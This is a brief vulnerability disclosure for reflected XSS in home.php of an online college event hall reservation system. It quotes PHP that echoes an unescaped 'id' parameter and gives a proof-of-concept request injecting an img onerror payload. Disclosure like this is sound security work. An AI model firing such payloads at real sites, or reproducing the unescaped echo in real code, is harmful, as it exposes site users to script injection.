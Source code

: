 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /home.php

## Code
```php
$id=$_GET['id'];?>

 <h1 class="logo "><a href="home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: 127.0.0.1
```

## Screenshot

![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/d1e8e49c-0e17-4532-a7d4-0759555979dd)

